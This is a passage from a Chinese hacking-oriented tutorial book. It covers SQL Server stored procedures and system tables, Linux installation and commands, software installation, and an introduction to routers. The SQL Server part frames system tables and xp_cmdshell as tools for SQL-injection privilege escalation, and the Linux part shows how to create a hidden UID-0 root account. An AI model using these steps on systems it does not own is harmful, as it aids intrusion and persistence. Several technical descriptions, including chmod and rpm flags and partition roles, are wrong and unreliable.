- **Sp_configure**：显示或更改全局配置设置，比如 C2 审核模式、允许更新、远程访问、远程登录时间限制、用户连接等；
- **Sp_help**：列举在 SQL Server 上的任何部分，包括所有的对象；
- **Sp_helpdb**：列出可用的数据库，当把数据库名作为参数使用的时候，显示对应的数据库信息；
- **Sp_helprotect**：显示对象权限信息；
- **Sp_OACreate**：创建一个 OLE 对象实例；
- **Sp_OADestroy**：删除一个 OLE 对象；
- **Sp_OAGetErrorInfo**：显示 OLE Automation 错误信息；
- **Sp_GetProperty**：显示 OLE 对象的属性值；
- **Sp_OAMethod**：调用 OLE 对象的方法；
- **Sp_OASetProperty**：设置 OLE 对象的属性；

| 存储过程/扩展过程 | 说明 |
|---|---|
| Sp_OAStop | 停止 OLE Automation 存储过程； |
| sp_password | 添加或者更改 SQL Server 登录密码。示例：`EXEC sp_password 'oldpass','newpass','sa'` |
| Sp_tables | 显示当前数据库的表。示例：`EXEC sp_tables` |
| Sp_who | 显示 SQL Server 连接信息，比如状态、登录名、连入主机名，以及数据库名和 SELECT 之类的命令； |
| Sp_availablemedia | 显示计算机上现有的驱动器； |
| Xp_cmdshell | SQL 扩展存储过程之一，能以管理员权限运行任何命令； |
| Xp_deletemail | 从 SQL 收件箱中删除消息； |
| Xp_dirtree | 列出目录内容； |
| Xp_dsninfo | 显示 ODBC DSN 信息； |
| Xp_enumdsn | 列举服务器上的 ODBC 数据源； |
| Xp_enumgroups | 显示系统上的 Windows 组件列表； |
| Xp_eventlog | 显示 Windows 系统的事件日志； |
| xp_getnetname | 显示运行系统的 NetBIOS 名； |
| xp_getfiledetails | 显示文件属性。示例：`EXEC master..xp_getfiledetails 'c:\windows\system32\net.exe'` |
| xp_grantlogin | 给予特定用户登录权限。示例：`EXEC master..xp_grantlogin nohack` |
| xp_logevent | 在 SQL Server 日志文件中记录用户定义的消息； |
| xp_loginconfig | 显示服务器安全模式信息； |
| xp_logininfo | 显示各用户登录信息； |
| xp_makecab | 允许用户在服务器（或服务器可访问文件）上创建压缩文件夹； |
| xp_msver | 显示 SQL 版本及操作系统信息。示例：`exec master..xp_msver` |
| xp_ntsec_enumdomains | 列举服务器可访问的域； |
| xp_readerrorlog | 显示 SQL Server 错误日志； |
| xp_readmail | 显示 SQL Server 收件箱中的邮件消息； |
| xp_regaddmultistring | 添加一个多字符串注册键； |
| xp_regdeletekey | 删除注册键； |
| xp_regdeletevalue | 删除注册键中的一个值； |
| xp_regenumkeys | 列举注册键； |
| xp_regenumvalues | 列举注册键值； |
| xp_regread | 读取注册键； |
| xp_regremovemultistring | 删除多字符串注册键； |
| xp_regwrite | 向注册键写入； |
| xp_revokelogin | 取消来自 Windows 组或用户的访问； |
| xp_sendmail | 向某人发送一条消息； |
| xp_servicecontrol | 允许用户启动或停止 Windows 服务。示例：`exec master..xp_servicecontrol 'start','nohack_server'` |
| xp_subdirs | 显示子目录列表； |

## 全面武装

图 6  
图 7

- xp_terminate_process：给定过程的 PID 值终止该进程；

以上这些存储过程在入侵检测中都会或多或少地帮到我们，大家可要好好学习。在 master 系统库中，还有几个表非常重要，如果被读取内容，能得到一些非常重要的信息：

图 8

- Sysobjects：显示数据库中的每个对象；
- Sysdatabases：显示每个现有数据库的创建日期以及文件名（包括完整路径）；
- Syslogins：显示数据库登录的用户名和密码；
- Sysprocesses：显示所有与客户和系统过程相关的信息；
- Syscolumns：显示所有表和视图中的每一列；
- Sysfiles：显示特定数据库中的所有文件；
- Sysobjects：显示特定数据库中的所有对象；
- Syspermissions：显示给予或者拒绝给予用户、组和角色的权限；
- Sysprotects：显示使用 grant 和 deny 语句应用于安全账户的权限；
- Systypes：显示数据库中所有系统和用户定义的数据类型；

| 名称 | 说明 |
|---|---|
| Sysuser | 显示所有拥有对数据库访问权限的 Windows 和 SQL Server 用户 |

这些重要表位于系统库 master 的“系统表”项之下，如图 6。  
例如我们在查询分析器中执行：`select * from master..Sysusers`，就可以得到数据库中所有拥有对数据库访问权限的 Windows 和 SQL Server 用户，如图 7。  
再执行：`select * from Syspermissions`，得到给予或者拒绝给予用户、组和角色的权限。这对于出现一些奇怪的权限现象进行分析时非常有用，如图 8。  
对这几个系统库和上面表的了解并利用是非常值得学习的，高手和“脚本小子”在 SQL 注入中的本质区别就在于高手能很好地利用这些资源获取有价值的信息并突破权限进行操作。

## 四十一、Linux 的安装

如果想要网络安全技术学得深，Linux 是绕不过去的坎。诚然 Windows 拥有众多的优势，并不像有些极端的 Linux 派所说的那么烂，但是应该了解到世界上几乎有一半的服务器是使用的这个系统。如果要想技术上一个层次，就必须熟练掌握 Linux。

很多菜鸟朋友对 Linux 的重视不够，觉得 Linux 的应用很少。这里我要告诉大家，那都是网上的低劣教程和初级教程带给大家的印象而已。在低层次的服务器里面，Windows 服务器是比较多的，因为它和操作系统融为一体，在操作上不会有不适应的感觉，管理方面也有很多现成的资料和经验可循，很多管理员都爱采用它。但是越是重要、含金量越高的服务器里面，采用 Linux 的就越多。

Linux 的优势主要体现在以下几个方面：

- **跨平台的硬件支持**  
  由于 Linux 的内核大部分是用 C 语言编写的，并采用了可移植的 Unix 标准应用程序接口，所以它支持如 i386、Alpha、AMD 和 Sparc 等系统平台，以及从个人电脑到大型主机，甚至包括嵌入式系统在内的各种硬件设备。

- **丰富的软件支持**  
  与其它的操作系统不同的是，安装了 Linux 系统后，用户常用的一些办公软件、图形处理工具、多媒体播放软件和网络工具等都已无需安装。而对于程序开发人员来说，Linux 更是一个很好的操作平台，在 Linux 的软件包中，包含了多种程序语言与开发工具，如 gcc、cc、C++、Tcl/Tk、Perl、Fortran77 等。

- **多用户多任务**  
  和 Unix 系统一样，Linux 是一个真正的多用户多任务的操作系统。多个用户可以各自拥有和使用系统资源，即每个用户对自己的资源（例如：文件、设备等）有特定的权限，互不影响，同时多个用户可以在同一时间以网络联机的方式使用计算机系统。多任务是现代计算机最主要的一个特点，由于 Linux 系统调度每一个进程是平等地访问处理器的，所以它能……- 4、**可靠的安全性**

Linux 是一个具有先天病毒免疫能力的操作系统，很少受到病毒攻击。对于一个开放式系统而言，在方便用户的同时，很可能存在安全隐患。不过，利用 Linux 自带的防火墙、入侵检测和安全认证等工具，及时修补系统漏洞，就能大大提高 Linux 系统的安全性，让黑客们无机可乘。

- 5、**良好的稳定性**

Linux 内核的源代码是针对标准规范的 32 位（在 64 位 CPU 上是 64 位）计算机做的最佳化设计，可确保其系统的稳定性。正因为 Linux 的稳定，才使得一些安装 Linux 的主机常年不关机而不曾宕机。

- 6、**完善的网络功能**

Linux 内置了很丰富的免费网络服务器软件、数据库和网页开发工具，如 Apache、Sendmail、VSFTP、SSH、MySQL、PHP 和 JSP 等。近年来，越来越多的企业看到了 Linux 的这些强大功能，开始利用 Linux 担任全方位的网络服务器。

除了以上这些基本的优势，学习 Linux 起码还有以下几点理由：

- 1、**可利用的工具更广、更好**

Windows 下的黑客工具有很多经典的代表，但是与 Linux 下的同类工具相比，还是显得黯然失色。Windows 自身的功能就限制了工具的功能，因为 Windows 内核是非公开的，所以在 Linux 中那些可以自定义协议进行探测的工具在 Windows 下永远不可能出现。

- 2、**可以更好地锻炼动手能力，接触字符界面的操作**

有一类刚学习网络安全知识的读者喜欢看各种资料教程，但是却无法独立安全检测成功任何一个站，这就是动手能力极度缺乏的表现。学习一定不能懒，而 Linux 这种以字符形式为主的系统，能很好地帮助大家克服这个毛病。

以上基本了解了 Linux，接着就来安装吧。安装 Linux 的教程在网上可谓不少，但是绝大部分（几乎等于没）写得太简单或跑题了，让初学者看得有些迷糊。我们这里将按照一般的操作过程：**“如何获得 Linux 操作系统－制作启动盘－安装 Linux”**，把这最重要的三大部分教给大家。

安装 Linux 要先在电脑上安装好两个工具，一个是虚拟光驱工具 DAEMON，另一个是刻盘工具 Nero。此外你的电脑光驱至少要是 CD-R 刻录机，还得有一张 CD-R 空白光盘，用以制作 Linux 系统启动盘。

Linux 的版本可比 Windows 复杂得多，不过建议大家不要选择网上众多介绍的 Red Hat Linux 9，因为这个版本实在是太老了，很多新的硬件都不支持，安装时也常常因为识别不到现在的新硬件而安装失败。

我选用的版本是 Fedora Linux 10，这个版本是 Red Hat 系列的后续版本，下载地址是：**http://torrent.fedoraproject.org/**。如图 1，可以看到有许多不同的下载文件，都是 BT 种子。

我们选择的是第一个最基本的核心光盘版，685M 刚好可以用 CD 光盘装下。

### 使用 Nero 刻录软件刻录系统盘


图 1

够有耐心的话，也可以下载那些 DVD 版的，里面有更多的一些工具程序，可以使后面更新升级的时间大大减少。这里说一下，在网上发布的 Linux 版本一般都会分为不同容量的版本（CD 版或 DVD 版），我们可以按照自己的需求来下载。


图 2


图 3

通过支持 BT 下载的软件下载后，得到最终的光盘镜像 ISO 文件，如图 2。我们要通过虚拟光盘工具 DAEMON 打开它。


图 4

关于 DAEMON 的安装就不介绍了，很简单，我们直接来使用吧。在屏幕右下角的 DAEMON 图标上按鼠标右键，依次选择“虚拟 CD/DVD-ROM”－“设备”－“装载映像”，如图 3，然后选择下载的这个 ISO 文件。


图 5


图 6

在打开的文件夹中，我们能看到这个 ISO 文件中包含的所有文件，如图 4。这里我们千万不能直接把这些文件往要刻录的光盘里一拖就完事，因为启动光盘中有些文件隐藏了，没有完全显示，我们必须使用刻录工具 Nero 来刻盘，这样才能保证最终的光盘文件与原始 ISO 里的文件相同。

下面我们就来刻盘了，运行 Nero 工具，选择“将映像刻录到光盘”，如图 5。然后选择“复制整张 CD”，如图 6。这里注意一下：我们下载的是大约 700M 的 CD 版，所以就选这个；如果你下载的是上 G 的 DVD 版本，这里就要选“复制整张 DVD”。

接着来到“选择来源及目的地”界面，如图 7，先选择“源驱动器”，就是我们安装的虚拟光驱软件虚拟出的那个光驱，然后选择“目标驱动器”，就是我们真实的物理光驱，一般都是默认系统自动选好的。


图 7

一切设置好后，把空白光盘放入真实的物理光驱中，点“复制”就开始刻盘了。耐心等待一会儿光盘就刻好了。注意由于 Nero 软件版本不同，所以可能有些选项略有不同，但是大同小异。

刻好盘之后重启电脑，在启动的过程中，一般可以按“DEL”键进入 BIOS 设置，在里面把光驱设置为第一启动盘，这样才能直接从光盘引导系统。当出现如图 8 的画面时，就表示引导光盘成功了。


图 8

现在开始进入安装过程，一般都选择第一个选项“安装或升级系统”（下载的版本不同，菜单会有细微区别，不过通常都是选择第一个进行安装）。接着就进入了图文安装界面，与 Windows 有点类似，有一个“LOGIN”按钮，别急着点，注意下方的“language”选项，点击“other”选择中文。

之后的桌面和 Windows 桌面几乎一模一样，但是千万别以为我们这样就已经成功安装了 Linux。现在出现的这个操作界面，只是电脑以光盘模拟出来的，系统并没有安装到我们的电脑里去。


图 9

点击桌面图标上的“安装到硬盘”，如图 9，然后选择键盘模式，用默认的即可。接下来是选择所在地址，默认是上海，如图 10，然后点击“下一步”。接着需要输入根账号密码，如图 11，根账号的作用就相当于 Windows 中的 administrator。

### 在 Fedora 11 上安装 Linux

接下来到了最重要的一步，就是给硬盘分区，如图 12。如果你在本机上已经装有 Windows 系统，想装多个系统（相信大部分都是这种情况），需要在下拉菜单中选择“建立自定义的分区结构”。

选择好后点击“下一步”，在菜单中，你电脑上所有的硬盘分区都列出来了，如图 13。选择你打算安装 Linux 的分区，点击“删除”，意思是删除原来的结构，开始重新以 Linux 格式分配这个分区。

在正式分区前先补充一点关于分区的准备知识。Linux 分区一般要分成四个盘，说成是盘可能也不准确，Linux 下的硬件都是用设备挂载形式加载的，一个盘的概念在 Linux 中与 Windows 的目录差不多。考虑到本书的读者大部分还是初学者，我就以 Windows 下的概念向大家表述。

一个 Linux 盘下通常要分四个区：分别是 `/`、`/boot`、`/home` 和 `/swap`，下面简单介绍一下这几个目录。

#### /

注意，这个目录就只是一个斜杠，表示根区，绝大部分程序都是装在这里面的。除了下面几个目录占用的硬盘空间之外，其余的所有空间都分配在这个区。

#### /boot

是安装系统内核的区，为了升级方便和程序稳定性，内核最好放在这里面。现在大家的硬盘应该都比较大，至少分 500M 吧。

#### /home

这个目录相当于 Windows 中的 web 目录，关于 web、FTP 或用户的内容，都放在这里面。这个要根据自身需求分配大小，一般我们作自己调试之用分几 G 就够了。

#### /swap

这个目录相当于 Windows 中的虚拟内存，能提高系统运行速度。很多对 Linux 不太了解的朋友说 Linux 比 Windows 还卡，多半就是因为没有设置虚拟内存，这个大小设得比你的内存大就行了。


图 10


图 11


图 12


图 13


图 14

现在选择你硬盘上的分区，然后点“删除”后，整个盘会变成“空闲”状态，这时再点击“新建”，把上面知识中要建立的四个目录分别建立，并填上相应大小。大小分配规则上面也说过了，注意除了 swap 分区外，其它分区要为 ext3 格式，如图 14。

Swap 这个分区是作为缓存用的，所以它的分区比较特别，格式不能指定为 ext3，只能指定为 swap 这种专用的缓存格式。在设置完分区后点击“下一步”，系统开始格式化硬盘，如图 15。


图 15

格式化完成之后需要装载引导设备，这里就选系统默认设置，不要更改，如图 16。


图 16

下一步就是将文件写入硬盘了，静静等待安装完毕，然后重启电脑。这时可以从光驱中取出光盘，以硬盘引导我们进入系统。

现在我们电脑上已经安装有 Linux 和 Windows 两种系统，在进入之前电脑会给我们一个选择菜单，让我们选择以哪个系统启动。这个启动菜单是有倒计时的，如果没有马上选择，会进入默认系统。我们可以在进入系统后把时间设置为 30 秒，好让我们有足够的时间来考虑选择。

我们选择进入 Linux 系统，来到桌面后依次选择“系统”－“管理”－“引导装载程序”，如图 17，之后会提示我们输入安装系统时的那个根密码才允许操作，这种权限认证和现在的 VISTA 是一样的。


图 17


图 18

在弹出“引导配置”框后，把下面的“超时”设置为 30 秒，然后点击“确定”即可，如图 18。

现在 Linux 的安装在我们本机上就已经完成了，但是还有一件非常重要的事情要做，那就是对系统进行升级。因为我们现在安装的 Linux 只相当于是一个 DEMO 版，很多库文件和插件都没有安装，只能完成最基本的功能，很多软件的安装和升级等都无法正常进行。


图 19

安装完成 Linux 后一定要马上进行系统升级，这是一个需要耗费数小时的过程！升级的方法是在桌面依次选择“系统”－“管理”－“Update System”。如果遇到需要使用命令行，依次选择“应用程序”－“系统工具”－“终端”即可，如图 19。

大家看看界面和操作，是不是和 Windows 没有多大区别？而且这个版本的 Linux 安装好之后就能直接上网，省去配置的麻烦，个人觉得是更适合菜鸟入手的版本，读者们借助它也开始 Linux 学习之旅吧。

## 四十三、Linux 常见操作详解

Linux 下的命令与 Windows 的 CMD 命令有很多类似之处，可以说是大同小异，这里只把 Linux 下最常用，或者在入侵检测中会遇到的命令介绍一下。

在对于文件操作的命令方面，Linux 主要包含以下几个：

**ls**

命令格式：`ls [dirname]`

`ls` 就是 Windows 下的 `dir` 命令，用来列出目录下的文件夹和文件，如图 1，为 `ls` 命令执行后的结果。


图 1

**cd**

命令格式：`cd [dirName]`

这个命令是变换工作目录至 `dirName`，其中 `dirName` 可为绝对路径或相对路径。若目录名称省略，则变换至使用者的 home directory（也就是刚 login 时所在的目录）。另外，`~` 也表示 home directory 的意思，`.` 表示当前所在目录，`..` 表示当前目录位置的上一层目录。

比如跳到自己的 home directory，命令为：`cd ~`，执行结果如图 2。`cd` 命令也能像 Windows 中一样实现目录跳转，如“`cd 目录路径`”，不过区别是 Linux 下的目录是没有“`c:\`”等盘符的，如图 3。


图 2


图 3

如果我们要跳到当前目录的上两层，使用的命令是：`cd ../../`，而“`cd -`”命令的作用则是返回进入当前目录前所在的目录。

下面来介绍 chmod 命令，其格式为：`chmod [who] [+ | - | =] [mode] 文件名`，命令中各选项的含义如下。

| who | 含义 |
|---|---|
| u | 表示“用户（user）”，即文件或目录的所有者。 |
| g | 表示“同组（group）用户”，即与文件属主有相同组 ID 的所有用户。 |
| o | 表示“其它（others）用户”。 |
| a | 表示“所有（all）用户”，它是系统默认值。 |

操作符号可以是：

- `+` 添加某个权限。
- `-` 取消某个权限。
- `=` 赋予给定权限并取消其它所有权限（如果有的话）。

设置 `mode` 所表示的权限可用下述字母的任意组合：

- `r`：可读。
- `w`：可写。
- `x`：可执行。
- `X`：只有目标文件对某些用户是可执行的，或该目标文件是目录时才追加 `x` 属性。
- `s`：在文件执行时把进程的属主或组 ID 置为该文件的文件属主。方式 `u+s` 设置文件的用户 ID 位，`g+s` 设置组 ID 位。
- `t`：保存程序的文本到交换设备上。
- `u`：与文件属主拥有一样的权限。
- `g`：与和文件属主同组的用户拥有一样的权限。
- `o`：与其它用户拥有一样的权限。

文件名：以空格分开的要改变权限的文件列表，支持通配符。

在一个命令行中可给出多个权限方式，其间用逗号隔开，例如：`chmod g+r,o+r nohacktest`，表示使同组和其它用户对指定目录有写权限。

除了这种和 Windows 下很类似的权限设置命令之外，Linux 还有一种独特的权限指派方式，就是用数字来代表所拥有的权限。数字设定法的一般形式为：`chmod [mode] 文件名`。

这需要我们必须首先了解用数字表示的属性含义：`0` 表示没有权限，`1` 表示可执行权限，`2` 表示可写权限，`4` 表示可读权限，然后将其相加。所以数字属性的格式应为 3 个从 0 到 7 的八进制数，其顺序是 `(u)`、`(g)`、`(o)`。如果想让某个文件的属主有“读/写”两种权限，需要把 `4`（可读）加上 `2`（可写），于是等于 `6`（读/写）；`6` 则代表拥有读写权限，而 `7` 则代表全部权限，也就是 `1`（可执行）+ `2`（可写）+ `4`（可读）= `7`。

### Netstat

命令格式：`netstat [选项]`  
命令中各选项的含义如下：

- `-a`：显示所有 socket，包括正在监听的。
- `-c`：每隔 1 秒就重新显示一遍，直到用户中断它。
- `-i`：显示所有网络接口的信息，格式同 `ifconfig -e`。
- `-n`：以网络 IP 地址代替名称，显示出网络连接情形。
- `-r`：显示核心路由表，格式同 `route -e`。
- `-t`：显示 TCP 协议的连接情况。
- `-u`：显示 UDP 协议的连接情况。
- `-v`：显示正在进行的工作。

这个命令相信大家不会陌生。在 Windows 下面我们常用 `netstat -an` 来查看服务器开放了哪些端口，从中得到有用的信息。Linux 下面也有这个命令，不过加的参数不同，Linux 下除了 `-an` 还要加个 `t`（显示打开的 TCP 端口）或 `u`（显示打开的 UDP 端口），如图 4。

### chown

命令格式：**chown [选项] 用户或组 文件**

chown 将指定文件的拥有者改为指定的用户或组。用户可以是用户名或用户 ID，组可以是组名或组 ID。文件是以空格分开的要改变权限的文件列表，支持通配符。例如 root 用户把自己的一个文件拷贝给用户 nohack，这时应该把这个文件的属主设为 nohack，否则 nohack 无法存取这个文件。


该命令的各选项含义如下：

- `-R` 递归式地改变指定目录及其下的所有子目录和文件的拥有者。
- `-v` 显示 chown 命令所做的工作。

### cp

cp 就是 Windows 中的 copy 命令，使用方法几乎一模一样，就是将一个文件拷贝至另一处，或将数个文件拷贝至另一处。

命令格式：

```bash
cp [options] source dest
cp [options] source... directory
```

说明参数：

- `-a` 尽可能将档案状态、权限等资料都照原状予以复制。
- `-r` 若 source 中含有目录名，则将目录下的档案亦皆依序拷贝至目的地。
- `-f` 若目的地已经有同名档案存在，则在复制前先予以删除再行复制。

范例：

- 将档案 aaa 复制（已存在）并命名为 bbb，命令为：`cp aaa bbb`
- 将所有的 C 语言程序拷贝至 Finished 子目录中，命令为：`cp *.c Finished`

下面介绍几个在安全检测时的常用命令，比如在 Windows 安全检测中用到的建立管理员账号的命令：**Useradd**

命令格式：`useradd [-u UID] [-g initial_group] [-G other_group] [-M|-m] [-c 说明栏] [-d home] [-s shell] username`

下面解释一下各个参数的含义：

- `-u` 后面接的是 UID，是一组数字，直接指定一个特定的 UID 给这个账号；
- `-g` 后面接群组名称，该 group ID（GID）会被放置到 `/etc/passwd` 的第四个栏位内；
- `-G` 后面接的群组名称则是这个账号还可以支持的群组。这个参数会修改 `/etc/group` 内的相关资料；
- `-M` 强制不要建立使用者 home 目录；
- `-m` 强制要建立使用者 home 目录；
- `-c` 这个就是 `/etc/passwd` 第五栏的说明内容，可以随便设定；
- `-d` 指定某个目录成为 home 目录，而不要使用预设值；
- `-r` 建立一个系统账号，这个账号的 UID 会有限制（`/etc/login.defs`）；
- `-s` 后面接一个 shell。

在用这个命令建立管理员账号之前，有必要先学习一下 Linux 中的用户权限结构。Linux 中用户的角色是通过 UID 识别的，在系统管理中，系统管理员一定要坚守 UID 唯一的特性。Linux 下的用户分为以下三类：

- **root 用户**：系统唯一的真实用户，可以登录系统，可以操作系统任何文件和命令，拥有最高权限；
- **虚拟用户**：这类用户也被称之为伪用户或假用户，不具有登录系统的能力，但却是系统运行不可缺少的用户，比如 bin、daemon、adm、ftp、mail 等。这类用户都是系统自身拥有的，而非后来添加的，当然我们也可以添加虚拟用户；
- **普通真实用户**：这类用户能登录系统，但只能操作自己 home 目录的内容，权限有限。这类用户一般都是系统管理员自行添加的，我们要添加的账号就是属于这一类用户。

首先要解释一下“Linux 用户是通过 UID 值识别”这句话。Windows 中用户权限是用所属“用户组”来识别，比如 nohack 被添加到 administrators 组里，nohack 就成了管理员之一。Linux 的 UID 值的意思是，比如 root 用户的 UID 值是 0，那么当另一个我们建立的用户 nohack 的 UID 值也被改为 0 时，这个账号也和 root 有一样的权限了。

学习了以上这些知识，现在我们开始像往常在 Windows 中做的那样建立一个管理员账号，不过这么做的前提是你已经具有了 root 权限。

再多啰嗦几句，Linux 下建管理员账号的步骤与 Windows 下有所不同，Windows 下是建好账号和密码，再加入管理员组成为管理员的；而 Linux 下是建好读写组或 UID 中的账号，再对其设置密码，使其被“激活”，命令格式如下：

```bash
adduser -u 0 -g 0 username
passwd username
```

通过这两个命令，就能建立一个用户 UID 为 0、组 GID 也为 0 的用户，用户 UID 和组 GID 是 root 的特征。

大家都知道，Windows 下的配置管理是通过注册表进行的，而 Linux 下的配置是通过一个个类似 ini 文件的“配置文件”实现的。这些配置文件是文本格式的，对其进行修改也就更改了系统的相应设置。

最后介绍一下 Linux 下非常重要而 Windows 下没有的命令：`vi`

## 四十三、在 Linux 下安装程序

在 Linux 下安装软件有 Tarball 和 RPM 两种方式，Tarball 是类 Unix 操作系统中常见的安装方式；RPM（Red Hat Package Manager）是 Red Hat 公司推出的包管理方式，这是一种非常不错的管理方式，读者可以把它理解为类似自解压文件一样的程序包。它在 Linux 下可以像 Windows 一样直接用双击的方法来安装，其他格式的程序只能用命令行安装。


图1

先看看最简单的用图形界面安装 Linux 程序的过程，如果是 RPM 后缀的文件，可以像 Windows 一样直接双击，会弹出安装界面。操作也和 Windows 下大同小异，点击“install”即可进行安装，如图1。

接着会弹出一个框要求输入 root 密码，输入正确之后就是一路顺风的安装了，如图2。


图2


图3

相比之下，Linux 比 Windows 下安装程序少一个过程，那就是指定安装路径。因为大体上都是指定好的，程序安装的路径我们可以从安装包的 readme、install 等目录中看到。例如本例中的程序是安装在 `/usr/share/tencent/qq` 目录下，如图3。到该目录下，运行主程序文件 QQ 就能执行程序了，如图4，整个安装过程是非常简单且令我们熟悉的。


但是如果我们只用这种方式安装，那么 Linux 下学习如何安装程序也就失去了意义。下面正式介绍在 Linux 下利用命令行来安装程序，因为绝大多数情况下我们是没机会舒舒服服地点几下鼠标就完成安装的。命令行下的程序安装是我们最常遇到的情况，作为一个 hack 一定要学会在最恶劣的条件下完成目的。


安装 RPM 有时候会遇到一些依赖关系的问题，如图5，就是用 RPM 安装程序时的报错。遇见这种依赖关系错误，虽然我们可以针对该软件重建一个依赖环境，但这会导致别的软件出现依赖问题，强烈建议不要自己找网上的一些解决办法来重建依赖环境。在不懂的情况下，这么做的结果很可能是带来新的麻烦。如果 RPM 的程序无法安装，建议找个其他版本，或者 gz 后缀的程序再来试试。

下面讲讲正常的 RPM 文件的安装，首先自然是搜索到你要安装的程序，然后下载保存到电脑上，这个和 Windows 下的下载并没有区别，如图6。这里我下载后保存在 `/var/temp` 目录下，在文件上按鼠标右键，选择“属性”进行查看，如图7。


当大家接触 Linux 比较久之后，会发现 Linux 下安装文件的名字通常都比 Windows 下的长，这是因为大多数 Linux RPM 软件包的名字要遵守一定的命名规律，通常是“名称-版本-修正版-类型”的命名方式，这一点和 Windows 相比各有优缺点。


Linux 下的文件名会给人繁杂的感觉，不过把主要的信息都表达得一清二楚了，我想这可能是对于 Linux 下的无后缀程序表达的信息不够完整的一个补充形成的习惯。

从图7我们可以看到，文件名是 **“Linuxqq-v1.0.2-beta1.i386.rpm”**，包含的意思为：文件名称是 Linuxqq，版本是 v1.0.2 版，修正版是 beta1，类型是 i386，是一个 RPM 软件包。

安装 RPM 软件包需要进入 shell 终端界面，它相当于 Windows 下 cmd 的命令行操作界面，进入的方法是在桌面依次选择 **“应用程序”→“系统工具”→“终端”**，如图8。


选择后弹出的窗口就是 Linux 的命令行操作界面，与 Windows 的 cmd 有几分相似。这里面使用 rpm 命令需要在 root 权限下，如果提示没有权限说明不是以 root 账号登录的，可以先使用命令 `su root`，然后输入 root 账号的密码就切换进入 root 模式了，如图9。


一般安装程序使用命令 rpm 加参数再加要安装的文件名，格式为：

```bash
rpm -ivh MYsoftware-1.2-1.i386.rpm
```

`-v` 这个参数是必加的，安装程序最常用的就是 i、v、h 这三个参数，rpm 命令的主要参数如下：

| 参数 | 说明 |
|---|---|
| `-h` | 安装时输出 hash 记号（#） |
| `-i` | 安装软件 |
| `-t` | 测试安装，不是真的安装 |
| `-p` | 显示安装进度 |
| `-f` | 忽略任何错误 |
| `-U` | 升级安装 |
| `-v` | 检测套件是否正确安装 |


图10

这些参数可以同时使用，更多的内容可以参考 rpm 的命令帮助，输入 `rpm --help` 命令就能看到。安装如果正常，会在终端窗口里看到有安装进度条，就是如图10中的“#################### [100%]”。

假如已经安装过某个软件，现在是需要安装该软件的升级版，可以使用命令：`rpm -Uvh MYsoftware-1.2-1.i386.rpm`，注意这个 `U` 要大写，Linux 是区别大小写的。


图11

如果要卸载软件，可以用 rpm 命令的 `-e` 参数进行卸载。由此可见，rpm 不光具有安装功能，在某种程度上还具有“Windows 添加/删除程序”中对所安装程序进行管理的功能。卸载软件使用的命令是：`rpm -e 软件名`，需要说明的是，命令中使用的是软件名，而不是软件包名，例如要卸载 `software-1.2-1.i386.rpm` 这个包时，应执行：`rpm -e software`。


图12

下面谈谈其他方式的安装程序，比如 tar 包。一般 tar 包都会再做一次压缩，最终后缀为 gzip、bz2 等，所以你需要先解压。如果是最常见的 gz 格式，则可以执行：`tar -xvzf 软件包名` 命令，可以一步完成解压与解包工作。如果不是，则先用解压软件解压，再执行 `tar -xvf 解压后的tar包` 进行解包，这一点新人要特别注意。

解压后的包不是在你下载的目录下，而是解压在你终端当前的目录下。假设你下载保存的目录是 `/var/temp`，终端工作在 `/home/pctest888` 目录，则解压后的程序目录是 `/home/pctest888`，而不是 `/var/temp`。

用 `ls` 命令就能看到在终端当前目录下已经有我们解压的 `RPM-4.4.1` 目录了，如图11。解压之后需要到目录中去找有没有 `configure` 文件，这个文件就相当于 Windows 中的 install 和 setup。如果没有，请阅读一下附带的 `INSTALL` 文件、`README` 文件，看看对于安装的说明，安装有没有什么要求。

不可否认 Linux 还是有很多不人性化的地方，比如很多程序需要先解压到一个特定名字的目录才能安装，看来我们在 Windows 下养成的忽略 readme 文件的习惯要改了，Linux 下的说明文件可不是可有可无的。

用“cd 目录名”（这个命令和 Windows 下是一样的）进入解压后的目录，用 `ls` 查看是否有 configure 文件，结果如图12。在 Linux 中，目录一般用深绿色背景表示，关键文件则是淡绿色字体表示。

如果有 configure 文件，我们按以下步骤执行安装：

- 1. 执行“`./configure`”为编译做好准备，注意一定要在前面加上“./”，说明是执行当前目录下的 configure；
- 2. 执行“`make`”命令进行软件编译；
- 3. 执行“`make install`”完成安装；
- 4. 执行“`make clean`”删除安装时产生的临时文件。

如果没有提示出错，软件就安装成功了。常见的安装文件除了 configure 外，还有 makefile 和 imake 两种名称。

如果是 Makefile 文件，就执行：

```bash
make
make install
```

如果是 Imake 文件，就执行：

```bash
xmkmf
make
```

RPM 安装和解压后编译安装，就是现在 Linux 最常见的两种安装方式。此外，gcc 和 glibc（也就是 libc6-dev 包）是两个必须安装的程序，几乎所有其他的程序都要依赖于它们，这两个文件就好像是“基本库”。

## 四十四、走近思科路由器

“网络”这个词十分形象地勾勒出了 Internet 的外貌，就是各种不同的设备相互交织连接在一起。各种设备中，我们接触得最多的终端，就是每一台个人电脑；另一种比较常见的设备，就是服务器，为网络提供各项服务。还有一种重要的设备，那就是路由器。

路由器的基本功能如下：

- 第一，网络互连：路由器支持各种局域网和广域网接口，主要用于互连局域网和广域网，实现不同网络互相通信；
- 第二，数据处理：提供包括分组过滤、分组转发、优先级、复用、加密、压缩和防火墙等功能；
- 第三，网络管理：路由器提供包括路由器配置管理、性能管理、容错管理和流量控制等功能。

为了完成“路由”的工作，在路由器中保存着各种传输路径的相关数据——路由表（Routing Table），供路由选择使用。路由表中保存着子网的标志信息、网上路由器的个数和下一个路由器的名字等内容。路由表可以是系统管理员固定设置好，也可以由系统动态修改或路由器自动调整，并由主机控制。

### 在路由器中涉及到两个有关地址的概念：静态路由表和动态路由表

由系统管理员事先设置好的路由表称之为静态（static）路由表，一般是在系统安装时就根据网络的配置情况预先设定的，它不会随未来网络结构的改变而改变。动态（dynamic）路由表是路由器根据网络系统的运行情况而自动调整的路由表。路由器根据路由选择协议（Routing Protocol）提供的功能，自动学习和记忆网络运行情况，在需要时自动计算数据传输的最佳路径。

读者们有没有想过，当一个数据包从你的电脑上发出后，是怎么到达你的目标？这中间就需要有一个个的路由器来实现这些功能。如果用个形象的比喻，路由器就像是邮局，把一个个数据包发往目的地。

路由器还有一个孪生兄弟——交换机，关于交换机和路由器的区别已经在前面讲过，我就不多说了。与交换机连接的电脑，都是在同一个内网中，交换机有点像一个“大喇叭”，把数据和信息广播到了整个内网中的主机，各个主机之间逻辑上是很“近”的，叫一嗓子大家全听到了，用不着动用路由器这个“邮局”来转发信息。

在大型的网络中，路由器是必备的，也有专门针对路由器的攻击手法。不过它完全不同于我们现在的注入、跨站等手法（属于应用层攻击手段），路由的攻击是处理网络层。

